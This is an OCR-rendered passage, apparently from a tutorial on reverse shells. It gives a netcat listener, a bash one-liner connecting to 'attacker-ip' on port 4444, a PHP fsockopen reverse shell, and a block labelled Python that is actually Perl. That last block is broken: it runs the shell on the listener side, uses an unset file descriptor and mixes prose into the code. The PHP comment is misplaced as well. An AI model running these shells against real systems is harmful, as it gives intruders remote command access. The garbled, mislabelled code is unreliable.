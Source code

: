 >   `nc -nlvp 4444`
> 
>   On the target machine, use Bash to establish a connection back to the listener
>   `bash -i >& /dev/tcp/attacker-ip/4444 0>&1`
> 
>   This code assumes that the attacker has started a listener on their machine using
>   the nc (netcat) utility, which is listening on a specified port (in this case, 4444). 
>   The second line of code, which is executed on the target machine, uses Bash to open
>   a connection back to the listener and establish a command shell. 
> 
> #### Example 2 - PHP
> 
>   The attacker establishes a command shell on a remote machine by exploiting a
>   vulnerability in the target system and using PHP, a server-side scripting language,
>   to execute commands on the target machine:
> 
> ```
>   <?php
>   // Start a listener on the attacker's machine
>   $sock=fsockopen("attacker-ip", 4444);
>   exec("/bin/sh -i <&3 >&3 2>&3");
>   ?>
> ```
> 
> The PHP code uses the fsockopen() function to open a connection to the listener and
> the exec() function to execute the /bin/sh shell and redirect its input, output, and
> error streams to the connection with the listener.
> 
> #### Example 3 - Python
> 
> This code example can be used to establish a command shell on a remote machine.
> 
> Start a listener on the attackers machine
> ```
>   use IO::Socket;
>   $|=1;
>   $socket = new IO::Socket::INET (
>       LocalHost => '0.0.0.0',
>       LocalPort => '4444',
>       Proto => 'tcp',
>       Listen => 1,
>       Reuse => 1
>   );
> 
>   Wait for a connection from the target machine
>   $new_socket = $socket->accept();
> 
>   Open a command shell on the target machine
>   system("/bin/sh -i <&3 >&3 2>&3");
> 
>   Close the connection
>   $new_socket->close();
> ```
> 
